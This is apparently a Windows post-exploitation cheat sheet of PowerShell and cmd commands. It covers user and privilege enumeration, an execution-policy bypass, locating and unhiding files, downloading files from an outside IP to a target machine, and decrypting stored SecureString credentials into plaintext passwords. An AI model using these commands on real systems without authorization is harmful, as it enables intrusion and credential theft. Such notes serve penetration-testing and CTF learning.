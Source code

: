 ## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)

## Unhide directories and files
* attrib -h -r -s /s /d C:\*.* (The C drive can be changed to any drive of your choice)
* GCI alias Get-ChildItem
    1. -Recurse       - It digs deep into the child dir.           
    2. -Force or -FO  - It shows the hidden dir too. 
    #### usage example 
        gci c:/ -recurse -force 
<br />

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name > Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  PathToXml\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))
